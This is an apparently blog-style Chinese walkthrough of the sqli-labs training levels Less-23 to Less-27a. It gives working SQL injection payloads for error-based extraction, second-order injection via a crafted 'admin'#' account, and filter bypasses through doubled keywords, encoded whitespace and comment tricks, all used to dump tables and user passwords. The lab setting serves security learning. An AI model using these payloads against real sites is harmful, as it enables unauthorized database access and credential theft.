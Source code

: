 ### Less-23
过滤了`#` 和`--+`等闭合的符号，所以通过 `or '1'='1` 来闭合后面的引号,任然使用之前的报错原理
```
-1' and updatexml(1,concat(0x7e,(select database()),0x7e),1) or '1'='1
```
<!--more-->
获取security数据库的所有表单
```
-1' and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) or '1'='1
```
![](image/61.png)
获取user表所有字段
```
-1' and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) or '1'='1
```
获取username/password
```
-1' and updatexml(1,concat(0x7e,(select group_concat(username) from users),0x7e),1) or '1'='1
-1' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) or '1'='1
```
如果长度不够，可以通过limit 0,1这样的手法拿到所有数据

### Less-24 
#### 二次注入，可以概括为以下两步:
第一步：插入恶意数据
进行数据库插入数据时，对其中的特殊字符进行了转义处理，在写入数据库的时候又保留了原来的数据。

第二步：引用恶意数据
开发者默认存入数据库的数据都是安全的，在进行查询时，直接从数据库中取出恶意数据，没有进行进一步的检验的处理。
本地登录的地方我们发现万能密码失败，于是查看源码
```
$username = mysql_real_escape_string($_POST["login_user"]);
$password = mysql_real_escape_string($_POST["login_password"]);
$sql = "SELECT * FROM users WHERE username='$username' and password='$password'";
```
由于对于我们的账号密码使用`mysql_real_escape_string`转义过。
本题可以采用二次注入
1. 首先创建一个user叫做`admin'#`,密码随意，我们可以看到，数据库中真的就出现了这么一条数据
2. 然后使用`admin'#`加上自己的密码登录
3. 然后修改密码为123456，最后效果居然是将admin用户改为123456的密码，自己新建的账号密码还是自己设定的
##### why?
首先我们看更新密码的查询语句为
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```
这是因为上面的数据库更新语句，在用户名为 "admin'#" 时执行的实际是：
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' ";
```
等同于
```
$sql = "UPDATE users SET PASSWORD='$pass' where username='admin';
```

### Less-25
把 or、and过滤了,其实好像也没怎么用上，而且发现只是一次过滤，通过双写绕过，那么和第一题就差不多了
比如order中有or所以可以写成oorrder,将其中的一个or过滤后剩下为order
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-25a
先寻找注入点
```
1" oorr 1 %23
1' oorr 1 %23
1 oorr 1 %23
```
只有第三种没啥问题，所以本题就是不需要加引号直接注入
```
-1' union select 1,2,group_concat(schema_name) from infoorrmation_schema.schemata%23
```
### Less-26
空格与注释被过滤了,最后的注释可以使用`or '1'='1` 来闭合，
然后空格可以用这些代替
```
%09 = TAB键（水平）

%0a = 新建一行

%0c = 新的一页

%0d = return功能

%0b = TAB键（垂直）

%a0 = 空格

&&(%26%26) = and
```
使用报错注入
```
0'||updatexml(1,concat(0x7e,(database()),0x7e),1)||'1'='1
```
这样是没问题的，然后爆库
```
0%27||updatexml(1,concat(0x7e,(select%0Agroup_concat(schema_name)%0Afrom%0Ainfoorrmation_schema.schemata),0x7e),1)||%271%27=%271
```
然后不行了，黑人问号？
试试直接拿数据
```
0%27||updatexml(1,concat(0x7e,(select%0agroup_concat(username)%0afrom%0ausers),0x7e),1)||%271%27=%271
```
![](image/63.png)
![](image/62.png)
最后网上有师傅回答是windows系统的缘故？然后发现可以用括号过滤乖乖
```
0'||extractvalue(1, concat(0x5c,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema)=database())))||'1'='1
```
表名
```
0'||updatexml(1,concat('$',(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema='security'))),0)||'1'='1
```
字段名
```
0'||updatexml(1,concat('$',(select(group_concat(column_name))from(infoorrmation_schema.columns)where(table_schema='security')%26%26(table_name='users'))),0)||'1'='1
```
数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',passwoorrd))from(users)where(username)='admin')),0)||'1'='1
```

### Less-26-a
题目提示空格与注释被过滤了而且加了括号，所以还是盲注解决吧(其实还是windows环境的锅导致%0a等不能实现，正经的服务器应该不会是windows的吧)
所以这样是可以de
```
100')union%a0select%a01,user(),('3
```
### Less-27
题目提示union与select被过滤了，可直接报错使用，当然也可以大小写来绕过还是上面的问题，因为windows的服务器，%0a不用，所以还是使用报错来写
```
0'||(updatexml(1,concat(0x5e5e,database()),1))||'1'='
```
然后想拿数据
```
0'||updatexml(1,concat('$',(select(concat('$',id,'$',username,'$',password))from(users)where(username)='admin')),0)||'1'='
```
很好就报错了
![](image/62.png)
然后发现有师傅提供了一种非常骚的做法,用`/*%0a*/`强行制造空格。awsl
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/'1'='1
```
表名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(table_name)/*%0a*/from/*%0a*/information_schema.tables/*%0a*/where/*%0a*/table_schema='security'),4/*%0a*/||/*%0a*/'1'='1
```
字段名
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(column_name)/*%0a*/from/*%0a*/information_schema.columns/*%0a*/where/*%0a*/table_schema='security'/*%0a*/%26%26/*%0a*/table_name='users'),4/*%0a*/||/*%0a*/'1'='1
```
数据
```
0'/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,(SeLeCt/*%0a*/group_concat(concat_ws('$',id,username,password))/*%0a*/from/*%0a*/users),4/*%0a*/||/*%0a*/'1'='1
```
### Less-27-a
把单引号改成双引号即可
```
0"/*%0a*/UnIoN/*%0a*/SeLeCt/*%0a*/2,database(),4/*%0a*/||/**/"1"="1
```
更多介绍？
[https://kit4y.github.io/tags/Sql-Injection/](https://kit4y.github.io/tags/Sql-Injection/)